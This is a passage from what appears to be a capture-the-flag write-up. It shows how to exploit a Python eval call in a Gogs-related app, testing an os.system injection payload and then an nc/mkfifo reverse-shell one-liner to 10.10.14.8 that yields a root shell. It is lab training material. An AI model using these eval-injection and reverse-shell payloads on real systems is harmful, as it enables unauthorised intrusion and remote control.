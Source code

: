 
### Abusing Python eval Statements

The `eval` statement in `python` let’s one run a string as python. [This
post](https://www.floyd.ch/?p=584) has a pretty good detailed write up on it,
though it goes into way more difficult cases than this one. From that post,
I’ll grab the following:

    
    
    __import__('os').system('echo hello, I am a command execution')
    

I’ll test that in a `python` shell:

    
    
    root@kali# python3
    Python 3.7.3 (default, Apr  3 2019, 05:39:12) 
    [GCC 8.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> s = "__import__('os').system('echo hello, I am a command execution')"
    >>> eval(s)
    hello, I am a command execution
    0
    

Now I’ll check that with the code from gogs, putting `s` where the code has
`requests.json['abv']`:

    
    
    >>> eval('%s > 1' % s)
    hello, I am a command execution
    False
    

Great. Still execution. I want to get a reverse shell. As always, I’ll turn to
the [Pentest Monkey cheat sheet](http://pentestmonkey.net/cheat-
sheet/shells/reverse-shell-cheat-sheet). In this case, I’ll go with the
`mkfifo` shell, which is especially nice in this case since it doesn’t have
any `"` or `'` to worry about nesting. I’ll test it locally to make sure I
have the syntax correct, and it works:

    
    
    >>> s = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')"
    >>> eval('%s > 1' % s)
    rm: cannot remove '/tmp/f': No such file or directory
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.14.8.
    Ncat: Connection from 10.10.14.8:48958.
    # id
    uid=0(root) gid=0(root) groups=0(root)
    